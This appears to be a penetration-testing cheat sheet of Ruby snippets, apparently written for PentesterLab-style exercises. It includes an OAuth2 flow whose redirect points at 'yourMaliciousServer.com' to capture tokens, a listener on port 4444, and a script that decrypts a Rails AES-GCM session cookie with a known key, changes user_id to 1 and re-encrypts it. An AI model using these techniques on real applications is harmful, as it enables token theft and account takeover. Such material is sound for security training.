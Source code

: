 ## CODE EXAMPLES

### DECODING
- URL-Decode in Ruby: `require 'uri'; URI.decode("http%3A%2F%2Fexample.com%2F%3Fa%3Druby%20uri%20decode")`

<br />

### OAUTH2 TOKEN 
- Firstly, `gem install oauth2`
```
require 'oauth2'

callback = "http://yourMaliciousServer.com"
app_id = " "

secret = " "
client = OAuth2::Client.new(app_id, secret, site: "http://authorization-server.com")
client.auth_code.authorize_url(redirect_uri: callback)


code = " "
access = client.auth_code.get_token( code, redirect_uri: callback)
access.get("/api/user").parsed

puts access.token
```

<br />

### PROXY
- More Advanced: [https://gist.github.com/jhnbwrs/dff50c0c9515f2358ac0](https://gist.github.com/jhnbwrs/dff50c0c9515f2358ac0)
```
# REQ: sudo gem install sinatra

require 'net/http'
require 'uri'
require 'sinatra'

set :port, 4444
set :bind, '0.0.0.0'

get '/' do
  uri = URI("http://...")
  resp = Net::HTTP.get_response(uri)
  loc = resp.header['location']
  text = "Hello Visitor!"
end
```

### RUBY ON RAILS: AES-GCM SIGNED SESSION 
- Helpful: [https://emanual.github.io/ruby-docs](https://emanual.github.io/ruby-docs/classes/OpenSSL/Cipher/CipherError.html)
```
require 'uri'
require 'cgi'
require 'base64'
require 'openssl'

cookie = URI.decode("iowp3WAChN4G....TmF9TMUgkDepg%3D--xguco..6khpC--wdizT8Aw..3D%3D")

def secret()
    secret = Digest::MD5.hexdigest("PentesterLab::Application")
    OpenSSL::PKCS5.pbkdf2_hmac_sha1(secret, "authenticated encrypted cookie", 1000, 32)
    end

def decrypt(cookie)
    cipher = OpenSSL::Cipher.new("aes-256-gcm")
    encrypted_data, iv, auth_tag = cookie.split("--".freeze).map { |v| ::Base64.strict_decode64(v) }
    cipher.decrypt
    cipher.key = secret()
    cipher.iv  = iv
    cipher.auth_tag = auth_tag
    cipher.auth_data = ""
    decrypted_data = cipher.update(encrypted_data) + cipher.final
    end

def encrypt(string)
    cipher = OpenSSL::Cipher.new("aes-256-gcm")
    cipher.encrypt
    cipher.key = secret()
    iv = cipher.random_iv
    cipher.auth_data = ""
    encrypted_data = cipher.update(string) + cipher.final
    blob = "#{::Base64.strict_encode64 encrypted_data}--#{::Base64.strict_encode64 iv}"
    blob = "#{blob}--#{::Base64.strict_encode64 cipher.auth_tag}"
    blob
    end

string = decrypt(cookie)
string = string.sub! '"user_id":2', '"user_id":1'
puts CGI.escape(encrypt(string))


# Example string = {"session_id":"7ee48973...952f595","_csrf_token":"+UV6rbAMo6QW...6lAGP8=","user_id":1}
# Output: 6k5xPNUYdUbZX9eH...BGZ%2BfyPvi9CU%2BZOD5qKVc%3D--61raV%2BxHyFVR4Rv3--KiSR%2F9hZqMfntNewcCm9kQ%3D%3D
```
